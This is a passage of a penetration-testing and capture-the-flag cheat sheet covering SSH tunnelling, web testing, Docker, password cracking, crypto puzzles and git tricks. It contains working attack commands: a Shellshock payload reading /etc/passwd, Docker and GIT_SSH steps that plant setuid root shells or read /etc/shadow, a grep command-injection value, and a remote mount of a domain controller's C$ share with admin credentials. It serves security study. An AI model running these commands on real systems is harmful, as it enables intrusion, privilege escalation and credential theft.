 The below example executes command on file.bitvijays.local computer with Domain Administrator credentials and utilizes net use to mount Domain Controller C Drive and read a particular file
 ::

   Invoke-Command -ComputerName file.bitvijays.local -Credential $credential -ScriptBlock {net use x: \\dc.bitvijays.local\C$ /user:bitvijays.local\domainadministrator_user DA_Passw0rd!; type x:\users\administrator\desktop\imp.txt}


Wget
----

FTP via Wget
^^^^^^^^^^^^

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

::

  wget -rq ftp://IP --ftp-user=username --ftp-password=password

wgetrc Commands
^^^^^^^^^^^^^^^

::

 output_document = file -- Set the output filename—the same as ‘-O file’.
 post_data = string -- Use POST as the method for all HTTP requests and send string in the request body. The same as ‘--post-data=string’.
 post_file = file   -- Use POST as the method for all HTTP requests and send the contents of file in the request body. The same as ‘--post-file=file’.
 -P prefix
 --directory-prefix=prefix
   Set directory prefix to prefix.  The directory prefix is the directory where all other files and subdirectories will be saved to, i.e. the top of the retrieval tree.  The default is . (the current directory).

Tricks
^^^^^^

* The interesting part with -P Parameter is you can save the file in /tmp if your current directory is /. Let me explain, Let's say, your current directory is /home/user/ if we do

 ::

  wget IPAddress -P tmp

 it would create a tmp folder in the /home/user/ and save the file in that. However, if you current directory is /, it would save the file in /tmp folder, from where you can execute stuff.

* wget accepts IP address in decimal format 




SSH
---

ssh_config
^^^^^^^^^^
If you know the password of the user, however, ssh is not allowing you to login, check ssh_config.

::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers example_user1 example_user2 
   ## SSH keys only but example_user1 can use a password 
   Match user example_user1 
   PasswordAuthentication yes 	
   ## End tighten security

SSH Tunneling
-------------

SSH protocol, which supports bi-directional communication channels can create encrypted tunnels.

Local Port Forwarding
^^^^^^^^^^^^^^^^^^^^^

SSH local port forwarding allows us to tunnel a local port to a remote server, using SSH as the transport protocol.

::

 ssh sshserver -L <local port to listen>:<remote host>:<remote port>

Example: 

Imagine we’re on a private network which doesn’t allow connections to a specific server. Let’s say you’re at work and youtube is being blocked. To get around this we can create a tunnel through a server which isn’t on our network and thus can access Youtube.

::

 $ ssh -L 9000:imgur.com:80 user@example.com

The key here is -L which says we’re doing local port forwarding. Then it says we’re forwarding our local port 9000 to youtube.com:80, which is the default port for HTTP. Now open your browser and go to http://localhost:9000

Remote Port Forwarding
^^^^^^^^^^^^^^^^^^^^^^

SSH remote port forwarding allows us to tunnel a remote port to a local server.

::

 ssh sshserver -R <remote port to bind>:<local host>:<local port>

Example:

Let's say there's a wordpress web-application we have compromised and have a www-data shell. Also, let's say, we are inside a docker environment with the network below

::

 172.16.0.1 Host-Machine
 172.16.0.2 WordPress
 172.16.0.3 Joomla
 172.16.0.4 Mysql

Now, Let's say, we have root credentials of mysql and want to access it using dbeaver application. Now, as we have access of wordpress machine, we can basically ssh to our machine (Let's say our IP is 10.10.15.111), creating a Remote Port Forward

::

 ssh bitvijays@10.10.15.111 -R 3306:172.16.0.4:3306

The above would create a ssh tunnel between 10.10.15.111:3306 and 172.16.0.4:3306. Then, we would be able to just launch dbeaver and connect to localhost mysql and browse the database at 172.16.0.4:3306.

As we would be probably inside the docker and www-data user, we might not have ssh binary and proper environment variable in that case, we can add below options

::

 ./ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null -v -i id_rsa -R 3306:172.16.0.4:3306 -fN bitvijays@10.10.15.111

SSH as SOCKS Proxy
^^^^^^^^^^^^^^^^^^
We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

:: 

  ssh -D localhost:9050 user@host

  -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

and 
	
:: 
	
  proxychains4 remmina

HTTP
----

First things
^^^^^^^^^^^^

* View Source of the web-page (Ctrl+U).
* Inspect element of the web-page (F12).
* See if there is any hint in the title of the web page. (example: /Magic).
* Check the scroll button! Sometimes, there are too many lines and something hidden in the end of the webpage!
* Check for any long file names such admin_5f4dcc3b5aa765d61d8327deb882cf99.txt; Such long names can be base64-encoded, hex, md5 etc.
* If any login page is implemented asking for username and password. Check how it is implemented? Is it using any open-source authentication modules? If so, look if there are any default passwords for that.
* If there's a page where redirect is happening (for example, http://example.com or http://example.com/support.php redirects us to http://example.com/login.php) However, the response size for example.com or support.php is a bit off, especially considering the page gives a 302 redirect. We may use No-redirect extension from firefox and view the page. We may also utilize curl/ burp to view the response.
* `List of HTTP Headers <https://en.wikipedia.org/wiki/List_of_HTTP_header_fields>`_ : Quite important when you want to set headers/ cookies etc.
* Watch for places where the site redirects you (it adds something to the URL and displays the homepage). If you see that happen, try adjusting the URL manually. for example: 
  when browsing 

 ::

   http://IPAddress/SitePages/

 it redirects to 

 :: 

  http://IPAddress/_layouts/15/start.aspx#/SitePages/Forms/AllPages.aspx

 we may find something by adjusting the URL manually to 

 ::

  http://IPAddress/SitePages/Forms/AllPages.aspx

htaccess - UserAgent
^^^^^^^^^^^^^^^^^^^^
When you see something like this "Someone's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

:: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Super secret location - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

CGI-BIN Shellshock
^^^^^^^^^^^^^^^^^^
To understand shellshock few blogs can be referred such as `ShellShocked – A quick demo of how easy it is to exploit <https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/>`_ , `Inside Shellshock: How hackers are using it to exploit systems <https://blog.cloudflare.com/inside-shellshock/>`_

::

  curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat

It is important to understand what is cgi-bin which can be read from `Creating CGI Programs with Bash: Getting Started <http://www.team2053.org/docs/bashcgi/gettingstarted.html>`_ . Also the most important lines in this file are:

::

  echo "Content-type: text/html"
  echo ""
 
These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn't understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling (directly or indirectly) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

::

  sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary

Shellshock also affects DHCP as mentioned `Shellshock DHCP RCE Proof of Concept <https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/>`_ There's a metasploit module named "Dhclient Bash Environment Variable Injection (Shellshock)" for this.

XSS/ HTML Injection
^^^^^^^^^^^^^^^^^^^

The below will redirect the page to google.com

::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

curl
^^^^

:: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.

HTTP Referer
^^^^^^^^^^^^

The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed. The Referer header allows servers to identify where people are visiting them from and may use that data for analytics, logging, or optimized caching.

::
   
  Referer: <url>

  <url> An absolute or partial address of the previous web page from which a link to the currently requested page was followed. URL fragments (i.e. "#section") are not included.

Data-URI
^^^^^^^^^
`Basics of HTTP Data URI <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>`_

Login-Pages
^^^^^^^^^^^
To test login pages, we may use burpsuite intruder and check for different length of response.

Delete Tags
^^^^^^^^^^^
Delete all lines between tags including tags:

::
   
  sed '/<tag>/,/<\/tag>/d' input.txt

.. Tip :: Useful when you are accessing the webpage using curl and their LFI and you want to remove the html/ body tags.

HTTP 404 Custom Page
^^^^^^^^^^^^^^^^^^^^
Sometimes, it's a good idea to look at 404 custom page also. There might be some information store.d

PHP
^^^

* PHP's preg_replace() function which can lead to RCE. It's deprecated in later revisions (PHP >= 5.5.0). If you think there's a pattern which is replaced in a text, refer `The unexpected dangers of preg_replace() <https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace>`_ 

Docker Security
---------------

Any user who is part of the docker group should also be considered root. Read `Using the docker command to root the host <http://reventlov.com/advisories/using-the-docker-command-to-root-the-host>`_ Older version of docker were vulnerable to Docker breakout. More details at `Shocker / Docker Breakout PoC <https://github.com/gabrtv/shocker>`_

If you are the docker user and want to get root. 

Create a Dockerfile
^^^^^^^^^^^^^^^^^^^

::

 mkdir docker-test
 cd docker-test

 cat > Dockerfile
 FROM debian:wheezy
 ENV WORKDIR /stuff
 RUN mkdir -p $WORKDIR
 VOLUME [ $WORKDIR ]
 WORKDIR $WORKDIR

Build the Docker
^^^^^^^^^^^^^^^^

::

 docker build -t my-docker-image .

Become root?
^^^^^^^^^^^^

* Copy binaries from the container into the host and give them suid permissions:

 ::

  docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'

  ./sh
  whoami
  # root

 If the sh is not working, create a suid.c, compile it, suid it and run.

* Mount system directories into docker and ask docker to read (and write) restricted files that should be out of your user’s clearance:

 ::


  docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat shadow'
  # root:!:16364:0:99999:7:::
  # daemon:*:16176:0:99999:7:::
  # bin:*:16176:0:99999:7:::
  # ...

* Bind the host’s / and overwrite system commands with rogue programs:

 ::

  docker run -v /:/stuff -t my-docker-image /bin/sh -c 'cp /stuff/rogue-program /stuff/bin/cat'

* Privileged copy of bash for later access?

 ::

  docker run -v /:/stuff -t my-docker-image /bin/sh -c 'cp /stuff/bin/bash /stuff/bin/root-shell-ftw && chmod a+s /stuff/bin/root-shell-ftw'
  root-shell-ftw  -p
  root-shell-ftw-4.3#

Password Protected File
------------------------
	  
ZIP File
^^^^^^^^

run fcrackzip

:: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

rar2john
^^^^^^^^
We can get the password hash of a password protected rar file by using rar2john

:: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

keepass2john
^^^^^^^^^^^^

::

 keepass2john user.kdbx 
 user:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da

::

 john --wordlist wordlist --format=keepass hashfile

There are other \*2john thingy

::

 dmg2john
 gpg2john
 hccap2john
 keepass2john
 keychain2john
 keyring2john
 keystore2john
 kwallet2john
 luks2john
 pfx2john
 putty2john
 pwsafe2john
 racf2john
 rar2john
 ssh2john
 truecrypt_volume2john
 uaf2john
 wpapcap2john
 zip2john


Encrypted Files
---------------

Many times during the challenges, we do find encrypted files encrypted by Symmetric key encryption or RSA Public-Private Key encryption

Symmetric Key
^^^^^^^^^^^^^

If we have the encrypted file and the key to it. However, we don't know the encryption scheme such as aes-128-cbc, des-cbc.

We can use the code written by superkojiman in `De-ICE Hacking Challenge Part-1 <https://blog.techorganic.com/2011/07/19/de-ice-hacking-challenge-part-1/>`_ , it would tell you what encryption scheme is used and then we can run the command to retrieve the plaintext.

::

 ciphers=`openssl list-cipher-commands`
 for i in $ciphers; do
  openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> > /dev/null 2>&1
  if [[ $? -eq 0 ]]; then
   echo "Cipher is $i: openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> -out foo.txt"
   exit
  fi
 done

RSA Public-Private Key encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have found a weak RSA public, we can use `RsaCtfTool <https://github.com/Ganapati/RsaCtfTool>`_ uncipher data from weak public key and try to recover private key and then use 

::

 openssl rsautl -decrypt -inkey privatekey.pem -in <encryptedfile> -out key.bin 

The ciphertext should be in binary format for RsaCtfTool to work. If you have your ciphertext in hex, for example

::

 5e14f2c53cbc04b82a35414dc670a8a474ee0021349f280bfef215e23d40601a

Convert it in to binary using

::

 xxd -r -p ciphertext > ciphertext3


RSA given q, p and e?
^^^^^^^^^^^^^^^^^^^^^

Taken from `RSA Given q,p and e <https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e>`_

::

 def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

 def main():

    p = 1090660992520643446103273789680343
    q = 1162435056374824133712043309728653
    e = 65537
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

 if __name__ == "__main__":
    main()


SECCURE Elliptic Curve Crypto Utility for Reliable Encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If you see, something like this

::

 '\x00\x146\x17\xe9\xc1\x1a\x7fkX\xec\xa0n,h\xb4\xd0\x98\xeaO[\xf8\xfa\x85\xaa\xb37!\xf0j\x0e\xd4\xd0\x8b\xfe}\x8a\xd2+\xf2\xceu\x07\x90K2E\x12\x1d\xf1\xd8\x8f\xc6\x91\t<w\x99\x1b9\x98'

it's probably `SECCURE Elliptic Curve Crypto Utility for Reliable Encryption <http://point-at-infinity.org/seccure/>`_ Utilize python module `seccure <https://pypi.python.org/pypi/seccure>`_ to get the plaintext. 


Network Information
-------------------


Sometimes, ifconfig and netstat are not present on the system. If so, check if ip and ss are installed?

ip
^^

::

  ip addr
    
   1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
   17: wwan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
      link/ether b2:06:fe:2b:73:c6 brd ff:ff:ff:ff:ff:ff
     inet 14.97.194.148/30 brd 14.97.194.151 scope global dynamic noprefixroute wwan0
       valid_lft 5222sec preferred_lft 5222sec

hostname
^^^^^^^^

We can also check the ipaddress of the host using hostname command

::

 hostname -I
 172.17.0.1 14.97.194.148 

ss
^^

ss - another utility to investigate sockets

::

 ss
 
       -n, --numeric
              Do not try to resolve service names.
     -l, --listening
              Display only listening sockets (these are omitted by default).
       -t, --tcp
              Display TCP sockets.

       -u, --udp
              Display UDP sockets.


Sudoers file
------------

If the sudoers file contains: 
	
secure_path
^^^^^^^^^^^
Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt_group option are not affected by secure_path. This option is not set by default.

env_reset
^^^^^^^^^
If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO_* variables. Any variables in the caller's environment that match the env_keep and env_check lists are then added, followed by any variables present in the file specified by the env_file option (if any). The contents of the env_keep and env_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

mail_badpass
^^^^^^^^^^^^
Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail_all_cmnds, mail_always, mail_no_host, mail_no_perms or mail_no_user flags are set, this flag will have no effect. This flag is off by default.

run-parts
---------

run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

:: 

  run-parts /etc/cron.daily

Java keystore file
------------------

Refer `Java Keytool essentials working with java keystores <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores>`_ and `openssl essentials working with ssl certificates private keys and csrs <https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>`_

Cracking MD5 Hashes
-------------------

Try `Crackstation <https://crackstation.net/>`_ or `ISC Reverse hash <https://isc.sans.edu/tools/reversehash.html>`_

Steghide
--------
Looking for hidden text in the images? Utilize steghide

::

  steghide version 0.5.1

  the first argument must be one of the following:
  embed, --embed          embed data
  extract, --extract      extract data
  info, --info            display information about a cover- or stego-file
  info <filename>       display information about <filename>
  encinfo, --encinfo      display a list of supported encryption algorithms
  version, --version      display version information
  license, --license      display steghide's license
  help, --help            display this usage information

.. Tip :: Sometimes, there is no password, so just press enter.

Git client Privilege Escalation
--------------------------------
Git clients (before versions 1.8.5.6, 1.9.5, 2.0.5, 2.1.4 and 2.2.1) and Mercurial clients (before version 3.2.3) contained three vulnerabilities that allowed malicious Git or Mercurial repositories to execute arbitrary code on vulnerable clients under certain circumstances. Refer `12 Days of HaXmas: Exploiting CVE-2014-9390 in Git and Mercurial <https://community.rapid7.com/community/metasploit/blog/2015/01/01/12-days-of-haxmas-exploiting-cve-2014-9390-in-git-and-mercurial>`_

In one of write-up, `Nicolas Surribas <http://devloop.users.sourceforge.net/>`_ has mentioned about two git environment variables GIT_SSH and GIT_TEMPLATE which can be utilized to do privilege escalation if git clone is performed using a suid binary. Imagine a suid binary utilized to do git clone from a remote directory.

GIT_SSH
^^^^^^^

If either (GIT_SSH or GIT_SSH_COMMAND) of these environment variables is set then git fetch and git push will use the specified command instead of ssh when they need to connect to a remote system. The command will be given exactly two or four arguments: the username@host (or just host) from the URL and the shell command to execute on that remote system, optionally preceded by -p (literally) and the port from the URL when it specifies something other than the default SSH port. $GIT_SSH_COMMAND takes precedence over $GIT_SSH, and is interpreted by the shell, which allows additional arguments to be included.  $GIT_SSH on the other hand must be just the path to a program (which can be a wrapper shell script, if additional arguments are needed).

::

  echo '#!/bin/bash' > cmd
  echo 'cp /root/flag.txt /tmp' >> cmd
  echo 'chmod 777 /tmp/flag.txt' >> cmd
  GIT_SSH=/home/username/cmd ./setuidbinary(utilizing git clone/ git fetch)

  or

  echo 'chown root:root /home/username/priv ; chmod 4755 /home/username/priv' > ssh

  where priv is binary compiled from suid.c

This basically changes the command from

::

  trace: built-in: git 'clone' 'ssh://root@machine-dev:/root/secret-project' '/mnt/secret-project/'

to

::

  trace: run_command: '/home/user/ssh' 'root@machine-dev' 'git-upload-pack '\''/root/secret-project'\'''

GIT_TEMPLATE_DIR
^^^^^^^^^^^^^^^^^
Files and directories in the template directory whose name do not start with a dot will be copied to the $GIT_DIR after it is created. Refer `Git-init <https://git-scm.com/docs/git-init>`_ 

::

  cp -r /usr/share/git-core/templates/ mytemplates
  cd mytemplates/hooks
  echo '#!/bin/bash' > post-checkout
  echo 'cp /root/flag /tmp/flag2' >> post-checkout
  echo 'chown username.username /tmp/flag2' >> post-checkout
  chmod +x post-checkout
  cd ../..
  GIT_TEMPLATE_DIR=/home/username/mytemplates/ ./setuidbinary( utilizing git clone/ git fetch)


Metasploit shell upgrade
------------------------

In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in a VM), we can upgrade it to meterpreter by using sessions -u

:: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms



Truecrypt Files
---------------

If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

:: 

  truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

and Veracrypt or cryptsetup to open the file.

::

  cryptsetup open --type tcrypt <Truecrypt> <MountName>



   
 
Grep in input box?
------------------

* If the html code contains the below where $key is the input from the user, and we want to read a particular value

  ::
   
    passthru("grep -i $key dictionary.txt");

   Remember grep works in a way "grep bitvijays /etc/passwd" is find bitvijays in /etc/passwd. This can be used in reading some files on the disk.

* If the above contains

  ::

   if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
        } else {
        passthru("grep -i $key dictionary.txt");
    }

    Here we can use ".* /etc/passwd #" 

 This command searches for any character in the file and comments out the reference to dictionary.txt


Others
------
* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be important to see how a application is storing password.

* If there's a RCE in some web-application, probably, one of the way to check RCE is to ping your own machine.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial

* Many times if IPv6 is enabled, probably you can utilize IPv6 to connect and bypass firewall restrictions ( If firewall is not implemented at IPv6 level - many times it is not ).

 * To find IPv6 from SNMP 

  :: 

   snmpwalk -v2c -c public prism 1.3.6.1.2.1.4.34.1.3    
   iso.3.6.1.2.1.4.34.1.3.2.48.1.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544320
   iso.3.6.1.2.1.4.34.1.3.2.48.2.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544321
   iso.3.6.1.2.1.4.34.1.3.2.48.2.18.52.86.120.171.205.0.0.0.0.0.0.0.1 = INTEGER: 335544323

  Now, convert the decimal value after "iso.3.6.1.2.1.4.34.1.3.2" to hex which would be your IPv6 address "3002:1234:5678:ABCD::1"

 .. ToDo ::  Mention examples for IPv6 connect


* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password prompt from the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    


* Port 69 UDP:

  TFTP

  :: 

   get or put file

	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If a machine is running a IIS Server and we have found a way to upload a file. We can try asp web-shell or meterpreter of asp, aspx, aspx-exe executable formats from msfvenom.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* Have a web-accessible git ? utilize `dvcs-ripper <https://github.com/kost/dvcs-ripper>`_ to rip web accessible (distributed) version control systems: SVN, GIT, Mercurial/hg, bzr. It can rip repositories even when directory browsing is turned off. Eric Gruber has written a blog on `Dumping Git Data from Misconfigured Web Servers <https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/>`_ providing good walkthru.

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'

* It's always important to note down all the passwords found during the process of exploiting a vulnerable machine as there is a great possibility that passwords would be reused.
 
* If you have .jar file, Probably use jd-gui to decompile and view the class file. 


